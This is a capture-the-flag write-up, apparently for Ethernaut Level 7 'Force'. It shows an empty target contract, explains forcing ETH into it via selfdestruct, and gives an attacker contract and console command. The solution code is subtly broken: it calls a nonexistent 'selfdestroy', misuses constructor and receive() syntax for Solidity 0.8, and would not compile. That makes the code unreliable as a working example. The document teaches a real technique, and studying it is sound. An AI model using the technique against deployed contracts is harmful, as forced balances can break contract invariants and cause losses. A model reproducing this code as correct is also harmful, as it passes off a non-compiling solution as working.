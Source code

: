 # **Level 7 -- Force**
## **Contract to hack**
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

```

---
## ***Objectives***
* Make the balance of the contract greater than zero.
---
## ***Thought Process***
If you want a contract to be able to receive ETH, you need to add a `receive()` or `fallback()` function to the contract with a `payable` keyword. However since there are no functions in this contract, we can not send ETH to the contract directly.

Nevertheless, there is a special way to send ETH to any contract which is called `selfdestruct`. This function allows us to destroy a contract and send the balance of the contract to an address or another contract. Therefore, we need to create a contract with `selfdestruct` function and make sure the contract's balance is greater than zero. After that we call the `selfdestruct` function and send the ETH to the `Force` contract.

---
## ***Solution***
``` solidity
pragma solidity ^0.8.0;

contract ForceAttack {
    address levelInstance;
    
    constructor() public {}

    receive() payable{}

    function destroy(address to) external payable{
        selfdestroy(to);
    }

}
```
1. send ETH to the contract

2. call `destroy` function
``` ts
> await contract.destroy(ForceAddress);
```



